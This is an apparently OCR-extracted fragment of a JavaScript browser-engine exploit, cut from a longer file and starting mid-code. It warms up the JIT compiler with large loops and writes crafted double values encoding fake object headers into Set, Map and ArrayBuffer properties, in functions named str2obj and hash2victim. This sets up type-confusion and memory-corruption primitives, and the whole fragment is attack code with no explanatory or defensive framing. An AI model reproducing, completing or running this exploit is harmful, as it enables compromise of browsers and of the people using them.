 ```javascript
}

function hex(i)
{
	return i.toString(16);
}

function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var jit = new Function("var a = 1000000");

var a;
var b;
var c;
function Ctor_a() {
	a = new Set();
}

function Ctor_b() {
	b = new Map();
}

function Ctor_c(){
	c = new ArrayBuffer();
}

function str2obj(obj) {
	a.xyz0 = 3.4766863919152113e-308;
	a.xyz1 = 0;
	a.xyz2 = 0x8;
	a.xyz3 = obj;
}

function str2value(value){
	b.xyz0 = 3.4766863919152113e-308;
	b.xyz1 = 0;
	b.xyz2 = 0x8;
	b.xyz3 = value;

}

function hash2victim(target){
	c.xyz0 = 3.4766863919152113e-308;
	c.xyz1 = target;
}


for(let i = 0; i < 0x10000; i++){
	Ctor_a();
	Ctor_b();
	Ctor_c();
}

for(let i = 0; i < 0x10000; i++){
	str2obj();
	str2value(1.1);
	hash2victim(2.2);
}

```